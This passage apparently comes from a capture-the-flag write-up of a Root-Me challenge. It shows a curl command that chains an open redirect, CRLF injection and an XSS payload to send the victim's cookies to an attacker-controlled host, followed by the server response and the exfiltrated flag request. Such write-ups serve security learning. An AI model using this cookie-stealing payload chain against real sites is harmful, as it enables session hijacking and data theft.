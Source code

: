 Perfect! Let's adapt the payload to leak the flag from cookies :

```bash
» curl "http://dyn-01.xmas.root-me.org:37781/api/report?url=http://127.0.0.1:3000/api/redirect?url=ws://evil.com/?%250D%250A%250D%250A<script>location='//attacker.fr/?c='.concat(document.cookie)</script>" -i 
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 66
Date: Tue, 10 Dec 2024 22:12:53 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"success":true,"message":"Thanks for your report, I'm checking!"
```

And we receive the flag!

```bash
GET /?c=FLAG=RM{Damnn_Chrome_And_Firefox_4re_S0_different} HTTP/1.1
``` 